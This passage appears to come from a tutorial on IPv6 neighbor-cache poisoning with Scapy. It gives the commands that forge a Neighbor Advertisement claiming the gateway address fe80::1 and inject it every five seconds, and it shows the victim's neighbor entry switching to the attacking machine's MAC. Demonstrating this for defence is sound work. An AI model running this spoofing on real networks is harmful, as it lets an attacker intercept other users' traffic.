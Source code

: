 ```
tgt        : IP6Field             = ('::')
>>> na=ICMPv6ND_NA(tgt='fe80::1', R=0)
>>> ls(ICMPv6NDOptDstLLAddr)
type       : ByteField            = (2)
len        : ByteField            = (1)
lladdr     : MACField             = ('00:00:00:00:00:00')
>>> lla=ICMPv6NDOptDstLLAddr(lladdr='00:00:00:00:00:0c')
```

Once we've constructed the individual layers of the packet, we can see how they look after being welded together (notice that Scapy will handle minor aspects automatically, like setting the Ethernet type field to 0x86dd for IPv6).

```
>>> (ether/ipv6/na/lla).display()
###[ Ethernet ]###
  dst= 00:00:00:00:00:0b
  src= 00:00:00:00:00:0c
  type= 0x86dd
###[ IPv6 ]###
   version= 6
   tc= 0
   fl= 0
   plen= None
   nh= ICMPv6
   hlim= 255
   src= fe80::1
   dst= fe80::2
###[ ICMPv6 Neighbor Discovery - Neighbor Advertisement ]###
    type= Neighbor Advertisement
    code= 0
    cksum= 0x0
    R= 0
    S= 0
    O= 1
    res= 0x0
    tgt= fe80::1
###[ ICMPv6 Neighbor Discovery Option - Destination Link-Layer Address ]###
       type= 2
       len= 1
       lladdr= 00:00:00:00:00:0c
```

We can now inject this packet at regular intervals onto the LAN. The following command within Scapy will retransmit the packet every five seconds:

```
>>> sendp(ether/ipv6/na/lla, iface='br0', loop=1, inter=5)
```

At a console on the victim machine (running Linux), we can use the `ip` utility to monitor IPv6 neighbors on the link. Notice that the MAC address for fe80::1 is initially listed as `00:00:00:00:00:0a`, the legitimate gateway, but as soon as we begin injecting our malicious neighbor advertisement, the entry is updated to `00:00:00:00:00:0c`, our attacking machine
